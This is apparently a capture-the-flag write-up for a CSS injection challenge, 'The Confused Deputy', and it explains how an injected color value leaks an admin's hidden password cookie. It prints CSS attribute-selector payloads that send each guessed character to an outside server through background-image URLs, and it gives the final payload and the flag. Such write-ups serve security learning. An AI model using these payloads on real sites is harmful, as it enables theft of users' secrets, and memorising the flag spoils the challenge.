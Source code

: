 # The Confused Deputy

Author: [roerohan](https://github.com/roerohan)

## Description

This website can be exploited with the help of CSS Injection.

## Requirements

- Docker: [Dockerfile](./Dockerfile)
- Node.js

## Sources

```
Wow that's a pretty color! Don't you think? Pick your favourite and show it to the admin on /admin.
```

## Exploit

This is a CSS injection challenge. In the page you open, you can see that there is an input box where you can enter a color, which gets applied as you click on submit. There's also a hidden field `password`, the value of which is taken from the cookie. Since the string is interpolated, you can do something like `blue}; input[type="password"][value^="c"] {background-image: url('https://example.com?c');`, which will send a request to `example.com?c`, if the first character of the password is `c`.
<br />

You may pass a long list of such CSS selectors, for all letters, for example. For example:

```css
input[type="password"][value^="a"] {background-image: url('https://example.com?a');}
input[type="password"][value^="b"] {background-image: url('https://example.com?b');}
input[type="password"][value^="c"] {background-image: url('https://example.com?c');}
...
```

This will therefore tell you which character matched, which you can see on your own server (here example.com). Once the first character is leaked, you can go ahead and try to leak the next character.

```css
input[type="password"][value^="ca"] {background-image: url('https://example.com?ca');}
input[type="password"][value^="cb"] {background-image: url('https://example.com?cb');}
input[type="password"][value^="cc"] {background-image: url('https://example.com?cc');}
...
```

An so on, until you find the entire password. Pass these payloads to `/admin` and you can leak the admin cookie `password`, which is the flag. The final payload with the help of which you can find the entire flag is:

```css
blue;} input[type="password"][value^="csictf{cssxss}"] {background-image: url('http://localhost:8000?csictf{cssxss}');
```

<br />

The flag is:

```
csictf{cssxss}
```